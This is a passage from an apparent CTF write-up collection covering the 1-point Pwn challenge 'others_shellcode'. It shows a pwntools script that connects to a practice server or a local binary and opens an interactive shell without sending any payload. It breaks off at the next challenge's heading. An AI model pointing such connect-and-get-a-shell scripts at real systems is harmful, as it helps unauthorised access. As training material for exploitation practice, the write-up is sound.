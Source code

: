 # others_shellcode

## Information

- Category: Pwn
- Points: 1

## Write-up

怕不是签到题？

## Exploit

```python
#!/usr/bin/env python3

from pwn import args, context, process, remote

FILE = "./shell_asm"
HOST, PORT = "node5.buuoj.cn", 28960

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)
    return target


def main():
    target = launch()

    # raw_input()
    target.interactive()


if __name__ == "__main__":
    main()
```

# [OGeek2019]babyrop

## Information
